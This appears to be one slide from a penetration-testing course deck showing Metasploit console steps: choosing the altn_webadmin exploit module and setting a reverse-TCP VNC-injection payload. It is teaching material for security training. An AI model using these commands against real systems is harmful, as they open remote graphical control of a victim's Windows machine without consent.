

# Select the exploit and the payload
Select an exploit:
msf > use windows/http/altn_webadmin
msf exploit(altn_webadmin) >
Select the payload for the exploit (setting the PAYLOAD global datastore)
msf exploit(altn_webadmin) >
set PAYLOAD windows/vncinject/reverse_tcp
PAYLOAD => windows/vncinject/reverse_tcp

11/5/2017
Penetration Testing
50